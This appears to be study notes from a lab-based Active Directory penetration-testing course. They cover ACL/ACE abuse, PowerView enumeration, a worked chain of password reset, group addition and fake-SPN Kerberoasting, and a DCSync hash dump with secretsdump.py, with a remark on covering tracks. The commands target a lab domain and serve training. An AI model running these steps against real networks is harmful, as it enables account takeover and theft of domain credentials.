

## Access Control Entities

### Why are ACEs Important

ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise.

There are 2 types of ACLs:

1. Discretionary Access Control List (DACL)
2. System Access Control List (SACL)

4 specific ACEs to highlight the power of ACL attacks:

| Attack | Description |
|--------|-------------|
| ForceChangePassword | Gives us the right to reset a user's password without first knowing their password (should be used cautiously and typically best to consult our client before resetting passwords). |
| GenericWrite | Gives us the right to write to any non-protected attribute on an object. If we have this access over a user, we could assign them an SPN and perform a Kerberoasting attack (which relies on the target account having a weak password set). Over a group means we could add ourselves or another security principal to a given group. Finally, if we have this access over a computer object, we could perform a resource-based constrained delegation attack which is outside the scope of this module. |
| AddSelf | Shows security groups that a user can add themselves to. |
| GenericAll | Grants us full control over a target object. Again, depending on if this is granted over a user or group, we could modify group membership, force change a password, or perform a targeted Kerberoasting attack. If we have this access over a computer object and the Local Administrator Password Solution (LAPS) is in use in the environment, we can read the LAPS password and gain local admin access to the machine which may aid us in lateral movement or privilege escalation in the domain if we can obtain privileged controls or gain some sort of privileged access. |


Breakdown of the varying possible ACE attacks and the tools to perform these attacks from both Windows and Linux (if applicable). 



### ACL Enumeration

```powershell
## PowerView
Import-Module .\PowerView.ps1

## Target specific user
$sid = Convert-NameToSid wley 
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 

## Reverse Search & Mapping to GUID 
$guid= "00299570-246d-11d0-a768-00aa006e0529"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```

```powershell
## PowerView
## Create list of domain users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt

## For-loop to get ACL information
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```

*Bloodhound can perform the same features but in a simpler manner through its GUI.*

## ACL Abuse Tactics

### ACL Chain Attack - Sample Scenario

To perform the attack chain, we have to do the following:

1. Use the wley user to change the password for the damundsen user
2. Authenticate as the damundsen user and leverage GenericAll rights to add a user that we control to the Help Desk Level 1 group
3. Take advantage of nested group membership in the Information Technology group and leverage GenericAll rights to take control of the adunn user

```powershell
## Creating PSCredential Object
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)

## Create SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

## Changing User's Password
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

## Repeat for damnundsen user 
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)

## Adding to Group
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

## Create Fake SPN 
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

## Kerberoast Attack

## Clean up
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

## DCSync

DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

```powershell
## View group membership
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

## Check replication rights of user
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

## If we had certain rights over the user (such as WriteDacl), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks.

## Extract NTLM and Kerberos Keys
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

## Check for reversible encryption option 
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```